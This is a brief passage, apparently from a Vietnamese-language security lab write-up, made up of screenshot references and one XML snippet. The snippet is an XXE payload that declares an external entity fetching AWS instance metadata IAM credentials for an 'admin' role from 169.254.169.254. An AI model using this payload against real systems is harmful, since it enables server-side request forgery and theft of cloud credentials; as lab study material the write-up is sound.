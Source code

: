 ![image-20250803132938167](./image/image-20250803132938167.png)

Tiếp tục như vậy, ta có được full api endpoint: 

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

![image-20250803133145979](./image/image-20250803133145979.png)
